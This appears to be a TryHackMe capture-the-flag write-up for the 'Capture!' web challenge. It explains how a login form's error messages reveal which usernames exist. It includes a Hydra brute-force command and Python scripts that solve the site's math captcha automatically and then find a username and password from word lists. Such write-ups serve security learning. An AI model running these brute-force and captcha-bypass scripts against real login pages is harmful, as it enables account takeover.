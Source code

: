 ```yaml
---
title: "Capture! [WEB]"
categories: TryHackMe
permalink: /ctfs/tryhackme/capture
---
```

Simple broken authentication vulnerability | `EASY`

## 📁 Challenge Description

>Can you bypass the login form?

**DOWNLOADED TASK FILES**: `usernames.txt`, `passwords.txt`

**usernames.txt**

```
rachel
rodney
corrine
erik
chuck
[877 lines...] 
ronny
colin
ivy
madge
orville
```

**passwords.txt**

```
football
kimberly
mookie
daniel
love21
[1557 lines...]
douglas
qwerty
gabby
thankyou
arturo
```

## 🚩 Solution

We had been given a simple login site with username and password need to be filled. The first method comes in my mind with the `usernames.txt` and `passwords.txt` given is to brute-force the login page by using HYDRA.

```
hydra -L usernames.txt -P passwords.txt 10.10.85.242 http-post-form "/login:username=^USER^&password=^PASS^:F=Error" -V -t 20 -I
```

However, it has 1375826 combinations to go through. Moreover, the website activates the captcha checker due to multiple login attempts. Therefore, I consider to look at other entry points within the website.

From my observation, the website does give us a vulnerable behavior which is the **Error message** it returns.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/8d63bb32-06e8-4511-9f31-c766286a98fc)

Based on the image above, when a user enters a set of credentials, it will return an error message `"The user 'username' does not exist."`.

In other words, the website is checking the validity of the `username` instead of checking the `username` and `password`. Thus, the approach of this challenge is to enumerate out the existing username on the website, and then enumerate the password correspond to the username we had enumerated previously. By looking at the challenge hint, we know that we are on the right path.

![image](https://user-images.githubusercontent.com/107750005/237060722-d860b67f-63e0-4f33-90dc-78a0b5a3e272.png)

First, we need to bypass the captcha checker before enumerating the username as the error message indicates the validity of captcha even the username is invalid.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/8334dac8-6900-4019-bb92-2f212c11b374)

To do this, we can create a `get_captcha()` function to manage the captcha part.

```python
#!/usr/bin/env python3
import requests
import re

url = 'http://10.10.85.242/login'

u = open('usernames.txt', 'r').readlines()
p = open('passwords.txt', 'r').readlines()

usernames = ''.join(u).split('\n')
passwords = ''.join(p).split('\n')

def get_captcha(data):

	res = requests.post(url, data=data)

	for item in re.findall('[0-9].*=', str(res.text), re.I+re.M):
		found = '{}'.format(item).split(" ")

	if found[1] == '+':
		return int(found[0]) + int(found[2])
	elif found[1] == '-':
		return int(found[0]) - int(found[2])
	elif found[1] == '*':
		return int(found[0]) * int(found[2])
```

We can observe that every math question generated from the website are `addition`, `subtraction`, and `multiplication` between two numbers. This can be concluded by clicking the "Login" button multiple times.

```python
def enumerate_username():

	testdata = {
		"username": "fakeuser",
		"password": "fakepass",
	}

	testres = requests.post(url, data=testdata)
	captcha = get_captcha(testdata)
	
	for username in usernames:
		data = {
			"username": username,
			"password": "fakepass",
			"captcha": captcha
		}

		res = requests.post(url, data=data)
		captcha = get_captcha(data) # refresh the captcha

		if re.findall('does not exist', str(res.text), re.I+re.M):
			print(f"[-] {username} does not exist.")
		else:
			print(f"[+] {username} found.") 
			break

enumerate_username()
```

As the captcha checker only appear in the `HTTP POST response`, therefore, a `fakeuser` and `fakepass` is created for retrieving the captcha question. After that, loop through all the usernames in the `usernames.txt` and refresh the captcha.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/9a2d1aa4-b030-4960-b005-36ed934d4a04)

Once the username is found, the process of password enumeration is similar with `enumerate_username()`. The only modification is to replace `fakeuser` to the username found `natalie`, and the error message to `"Invalid password"`.

```python
def enumerate_password():

	testdata = {
		"username": "natalie", # enumerated
		"password": "fakepass",
	}

	testres = requests.post(url, data=testdata)
	captcha = get_captcha(testdata)
	
	for password in passwords:
		data = {
			"username": "natalie",
			"password": password,
			"captcha": captcha
		}

		try:
			res = requests.post(url, data=data)
			captcha = get_captcha(data)

			if re.findall('Invalid password', str(res.text), re.I+re.M):
				print(f"[-] Not this password '{password}'.")

		except Exception as e:
			print(f"[+] Password '{password}' found.")
			break

enumerate_password()
```

>NOTE: Once the password is found, the website is no longer generate a new captcha question as it will redirect to another site (e.g., dashboard, etc.). The `get_captcha()` function will not detect any captcha question and results an UnboundLocalError. Therefore, it can be solved with the use of `try` and `except`.

Login with the credentials we had found to get the `Flag.txt`.

![image](https://user-images.githubusercontent.com/107750005/237055454-23b2f834-ba3d-466d-8c03-ef2779fad738.png)

***FLAG***: `7df2eabce3xxxxxxxxxxxxxxxxxxxxxxx`
